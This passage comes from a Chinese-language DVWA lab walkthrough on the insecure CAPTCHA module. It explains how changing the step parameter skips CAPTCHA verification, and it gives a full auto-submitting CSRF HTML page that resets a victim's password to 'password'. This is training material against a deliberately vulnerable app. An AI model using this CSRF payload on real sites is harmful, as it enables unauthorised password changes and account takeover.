 可以看到,服务器将改密操作分成了两步,第一步检查用户输入的验证码,验证通过后,服务器返回表单,第二步客户端提交 post 请求,服务器完成更改密码的操作.但是,这其中存在明显的逻辑漏洞,服务器仅仅通过检查 Change、step 参数来判断用户是否已经输入了正确的验证码.


**通过构造参数绕过验证过程的第一步**

首先输入密码,点击 Change 按钮,抓包,更改 step 参数绕过验证码:

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/dvwa/dvwa38.png)

ps:因为没有翻墙,所以没能成功显示验证码,发送的请求包中也就没有 recaptcha_challenge_field、recaptcha_response_field 两个参数

**CSRF**

由于没有任何的防 CSRF 机制,我们可以轻易地构造攻击页面,页面代码如下
```
<html>

<body onload="document.getElementById('transfer').submit()">

  <div>

    <form method="POST" id="transfer" action="http://<IP地址!!!>/dvwa/vulnerabilities/captcha/">

		<input type="hidden" name="password_new" value="password">

		<input type="hidden" name="password_conf" value="password">

		<input type="hidden" name="step" value="2"

		<input type="hidden" name="Change" value="Change">

	</form>

  </div>

</body>

</html>
```

